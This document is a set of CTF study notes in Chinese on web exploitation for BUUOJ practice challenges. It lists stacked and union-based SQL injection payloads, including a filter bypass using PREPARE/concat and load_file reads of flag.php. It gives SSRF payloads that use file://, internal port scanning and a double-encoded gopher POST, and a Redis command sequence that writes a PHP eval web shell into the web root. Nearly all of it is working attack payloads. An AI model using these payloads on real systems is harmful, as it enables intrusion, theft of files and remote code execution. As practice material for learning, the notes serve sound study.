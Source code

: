 ## [堆叠注入](https://buuoj.cn/challenges#[%E5%BC%BA%E7%BD%91%E6%9D%AF%202019]%E9%9A%8F%E4%BE%BF%E6%B3%A8)
`select`、`where`等都过虑掉了。
```sql
1';show databases;#
1';show tables;#
1'; show columns from `1919810931114514`;#
1';PREPARE hacker from concat('s','elect', ' * from `1919810931114514` ');EXECUTE hacker;#
```
sql预编译 prepare xxx_name from xxx_sql_exec; execute xxx_name;
## [SQL注入与其它结合](https://buuoj.cn/challenges#[%E7%BD%91%E9%BC%8E%E6%9D%AF%202018]Fakebook)
```sql
view.php?no=-1%20union/**/select%201,2,3,4
```
fakebook -> users -> no,username,passwd,data -> O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:6:"1.html";} 

union了半天发现没什么有用信息

githacker扫描没发现问题，dirsearch扫描发现有robots.txt和flag.php，txt里面显示有user.php.bak，里面是源码。

```sql
view.php?no=-1%20union/**/select%201,2,3,'O:8:"UserInfo":3:{s:4:"name";s:1:"1";s:3:"age";i:1;s:4:"blog";s:29:"file:///var/www/html/flag.php";}'

view.php?no=-1%20union/**/select%201,load_file(%27/var/www/html/flag.php%27),3,4#
```
# [XSS]

# [SSRF]
## [内网访问]
url=127.0.0.1/flag.php
## [伪协议]
url=file:///var/www/html/flag.php
结果不一定显示在页面上，也可能隐藏在response中。
## [端口扫描]
url=127.0.0.1:8000 ~ url=127.0.0.1:9000  
BurpSuite的Intruder端口遍历扫描爆破
## [Gopher协议]
```
gopher://127.0.0.1:80/_POST%2520/flag.php%2520HTTP/1.1%250D%250AHost%253A%2520127.0.0.1%253A80%250D%250AContent-Length%253A%252036%250D%250AContent-Type%253A%2520application/x-www-form-urlencoded%250D%250A%250D%250Akey%253D34ae68383f7ec667fa74685d316cb34d
```
页面可以直接添加
```
<input type="submit" name="submit" >
``` 
gopher编码后，`%0D`->`%250D`,`:`->`%253A`,`%0A`->`%250A`...
## [redis协议]
```sh
config set dir /var/www/html/ 
config set dbfilename shell.php
set x <?php @eval($_POST['cmd']);?>
save

```